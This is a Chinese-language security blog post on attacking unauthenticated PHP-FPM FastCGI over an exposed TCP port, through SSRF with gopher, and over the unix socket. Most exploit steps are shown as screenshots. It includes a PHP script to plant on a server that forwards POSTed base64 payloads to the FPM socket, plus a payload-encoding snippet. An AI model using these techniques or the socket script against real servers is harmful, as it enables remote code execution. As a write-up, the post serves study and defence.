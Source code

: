 ```yaml
---
layout:     post
title:      PHP-FPM Fastcgi 未授权访问漏洞
subtitle:   简单记录一下几种攻击方法
date:       2020-06-13
author:     BY Diego
header-img: /img/wenzhang/post-bg-格式化.jpgimg/wenzhang/PHP-FPM.jpg
catalog: true
tags:
    - 命令注入
    - PHP
---
```


# 一、PHP-FPM 两种模式

**php-fpm 有两种模式，一种是基于tcp 另一种是基于unix套接字，tcp模式会启动9000端口 而unix套接字模式是基于fpm.sock文件**


**tcp模式下配置文件**

fpm 配置文件
`/etc/php/7.4/fpm/pool.d/www.conf`
![tvbEYn.png](https://s1.ax1x.com/2020/06/13/tvbEYn.png)

nginx 配置文件
`/etc/nginx/sites-enabled/default`
![tvbAFs.png](https://s1.ax1x.com/2020/06/13/tvbAFs.png)

效果如下会开启9000端口
![tvb6pt.png](https://s1.ax1x.com/2020/06/13/tvb6pt.png)
**unix模式下配置文件**

fpm 配置文件
`/etc/php/7.4/fpm/pool.d/www.conf`
![tvH1RP.png](https://s1.ax1x.com/2020/06/13/tvH1RP.png)

nginx 配置文件
`/etc/nginx/sites-enabled/default`
![tvHlGt.png](https://s1.ax1x.com/2020/06/13/tvHlGt.png)

![tvqzqS.png](https://s1.ax1x.com/2020/06/13/tvqzqS.png)

# 二、攻击

具体原理参考其他文章，个人简单记录攻击方法

## ① Fastcgi暴露在外网

**tcp模式下的9000端口暴露外网**

直接利用poc 进行攻击，前提知道某php脚本的绝对路径，一般有php环境的都会自带php文件，根据实际选一个
![tjc98s.png](https://s1.ax1x.com/2020/06/13/tjc98s.png)

效果如下
![tjcPvq.png](https://s1.ax1x.com/2020/06/13/tjcPvq.png)


## ② Fastcgi在内网

**tcp模式下的9000端口在内网**

利用**gopher协议** 进行ssrf

可以本地先搭建个环境，直接用vulhub也行，用上面的脚本进行流量抓取
![tjcC2n.png](https://s1.ax1x.com/2020/06/13/tjcC2n.png)
跟踪一下流
![tjcpCj.png](https://s1.ax1x.com/2020/06/13/tjcpCj.png)
把发送数据转化成原始数据
![tj6z5Q.png](https://s1.ax1x.com/2020/06/13/tj6z5Q.png)

url编一下码
```python
data = ""
a = [ data[x:x+2] for x in range(0,len(data),2) ]
"%".join(a)
```
![tjcFK0.png](https://s1.ax1x.com/2020/06/13/tjcFK0.png)

然后利用curl 模拟一下
![tjW8ld.png](https://s1.ax1x.com/2020/06/13/tjW8ld.png)

或者直接利用工具自动生成payload
![tjWG6A.png](https://s1.ax1x.com/2020/06/13/tjWG6A.png)

![tjW3SH.png](https://s1.ax1x.com/2020/06/13/tjW3SH.png)


## ③ unix套接字攻击

使用的是unix套接字，因此不会开放9000端口，但同样需要存在php文件

需要在服务器端执行如下代码
```php
<?php
$sock=stream_socket_client('unix:///run/php/php7.3-fpm.sock');
fputs($sock, base64_decode($_POST['A']));
var_dump(fread($sock, 4096));
?>
```
可以通过工具生成，然后截取`_`以后的部分，url解码之后转base64
![tjWG6A.png](https://s1.ax1x.com/2020/06/13/tjWG6A.png)


也可跟ssrf相同方法 获得原始数据直接转base64

![tvXBKP.png](https://s1.ax1x.com/2020/06/13/tvXBKP.png)

# 三、参考

[PHP 连接方式&攻击PHP-FPM&*CTF echohub WP](https://evoa.me/index.php/archives/52/#toc-%E6%94%BB%E5%87%BB%E5%A5%97%E6%8E%A5%E5%AD%97)

[浅析php-fpm的攻击方式](https://xz.aliyun.com/t/5598#toc-8)

[Fastcgi协议分析 && PHP-FPM未授权访问漏洞 && Exp编写](https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html)
